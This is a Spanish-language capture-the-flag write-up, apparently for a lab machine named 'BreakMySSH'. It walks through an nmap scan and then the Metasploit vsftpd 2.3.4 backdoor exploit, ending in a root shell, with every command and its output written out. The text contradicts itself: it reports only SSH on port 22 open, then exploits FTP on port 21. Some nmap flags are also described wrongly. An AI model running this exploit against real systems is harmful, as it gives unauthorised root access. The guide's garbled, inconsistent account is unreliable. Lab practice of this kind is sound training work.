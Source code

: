 # BreakMySSH
**Herramientas y recursos usados**
- nmap
- searchsploit
- hydra

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN BreakMySSH`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo
![BMS_1](https://github.com/giustiand/DockerLabs-Writeups/blob/main/MuyF%C3%A1cil/.images/BMS_1.jpg)  
El único puerto abierto es el 22, que corresponde al servicio SSH.
Si hacemos una rápida busqueda en Google podemos observar que la versión de OpenSSH 7.7 tiene la vulnerabilidad de "user enumeration".

`searchsploit vsftpd 2.3.4`  
```
Exploit Title                                           Path
-----------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)   unix/remote/17491.rb
-----------------------------------------------------------------------------------
```
Encontramos 2 exploits, uno con extensión .rb que podemos utilizar a través de Metasploit.  
Iniciamos Metasploit y buscamos de nuevo la vulnerabilidad encontrada anteriormente con el comando `search`.
```
msf6 > search vsftp 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```
Ahora utilizaremos el comando `use` para seleccionar este exploit.
```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Con el comando `show options` podemos ver las informaciones necesarias para ejecutar el exploit.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```
En este caso solo hará falta insertar esta información:
- RPORT -> Puerto 21 (FTP) de la máquina víctima (que ya está cumplimentado)
- RHOSTS -> Dirección IP de la máquina víctima (172.17.0.2)

Para ello usaremos el comando `set`  
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Vemos si se han aplicado los cambios insertados:
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.17.0.2       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```
Por último, ejecutaremos el exploit con el comando `run`.
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 2 opened (172.17.0.1:38103 -> 172.17.0.2:6200) at 2024-06-16 15:59:31 -0400

id
uid=0(root) gid=0(root) groups=0(root)
```
Listo! Ya somos root!
